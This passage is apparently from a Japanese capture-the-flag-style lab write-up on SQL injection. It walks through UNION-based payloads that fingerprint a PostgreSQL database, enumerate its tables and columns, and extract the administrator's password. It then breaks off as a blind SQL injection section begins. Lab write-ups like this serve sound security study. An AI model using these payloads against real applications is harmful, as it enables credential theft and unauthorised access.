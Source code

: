 administratorとしてログインする

### Analyze

脆弱性の箇所は前回のラボと同じで、返却カラム数も同じです。

### Exploit

data型の特定をしていきます。

```bash
Pets ' union select 1, 'a' -- --
```

上記結果が200 OKであることから、数値型と文字型が返却カラムであることがわかります。

今回はOracleではないことがわかっています(databaseなしでも望んだ結果が返ってきているため)

ですが、何データベースかはわかっていません。ので、特定をしていきます。

```bash
Pets ' union select 1, version() -- --
```

**`PostgreSQL 12.16 (Ubuntu 12.16-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`**

コレによりPostgresqlであることがわかりました。

データベース名がわかったので、Tableのdumpを行います。

```bash
Pets ' union select 1, table_name from information_schema.tables -- --
```

`users` テーブルがあることが上記payloadによってわかります。

テーブル名がわかったので、column名を取得します。

```bash
Pets ' union select 1, column_name from information_schema.columns where table_name='users'-- --
```

コレであとはやるだけの状況です。

```bash
Pets ' union select 1, password from users where username='administrator'-- --
```

上記payloadによって取得したパスワードを利用してログインすれば終わりです。

## Blind SQL injection with conditiaonal responses

### Goal
`administrator`としてログインをする

前提条件として、`users`テーブルがあり、TrackingIdを使ったqueryが成功すると`Welcome back`というメッセージが出てくる。

### Analyze

